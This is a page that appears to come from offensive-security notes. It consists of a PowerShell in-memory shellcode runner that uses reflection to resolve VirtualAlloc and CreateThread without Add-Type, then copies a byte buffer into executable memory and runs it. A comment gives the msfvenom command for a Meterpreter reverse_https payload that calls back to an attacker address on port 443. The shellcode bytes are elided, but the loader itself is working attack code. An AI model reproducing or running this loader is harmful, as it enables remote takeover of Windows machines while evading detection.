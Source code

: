 {% code title="ShellcodeRunnerv2.ps1" %}
```powershell
function lookupFunc {
    Param ($moduleName, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | % {If($_.Name -eq "GetProcAddress") {$tmp += $_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
}

function getDelegateType {
    Param (
        [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
        [Parameter(Position=1)][Type] $retType = [Void]
    )

    # Building a DelegateType (doing it manually to avoid usage of Add-Type)
    ## create a custom assembly and define the module and type inside
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    ## set up the constructor
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## sets up the invoke method
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## invoke the constructor and return the delegation type
    return $type.CreateType()
}

# $VirtualAllocAddr = lookupFunc kernel32.dll VirtualAlloc
# $VirtualAllocDelegateType = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr])
# $VirtualAlloc =[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegateType)
# $VirtualAlloc.Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0x31,0x33,...,0x33,0x37
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```
{% endcode %}
